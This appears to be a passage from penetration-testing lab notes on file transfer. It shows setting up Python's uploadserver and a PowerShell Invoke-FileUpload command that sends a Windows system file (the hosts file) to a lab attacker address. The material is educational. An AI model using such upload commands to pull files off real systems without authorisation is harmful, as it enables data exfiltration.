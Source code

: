 Again, the hashes are matching `93453E17ECF7EF7028864D144B1347A5` !

## Web Server Upload

I can use `uploadserver` which is an extended module of the Python `http.server` module.

```bash
pip3 install uploadserver
python3 -m uploadserver
```

Now, I can upload my file on [http://127.0.0.1:8000/upload](http://127.0.0.1:8000/upload)

<figure><img src="../../.gitbook/assets/linux-web-server-upload-page.png" alt=""><figcaption></figcaption></figure>

Once I submit the query, I see the file has been received on the web server

<figure><img src="../../.gitbook/assets/linux-web-server-upload.png" alt=""><figcaption></figcaption></figure>

I can upload the file with Powershell

```powershell
Invoke-FileUpload -Uri http://10.10.14.9:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
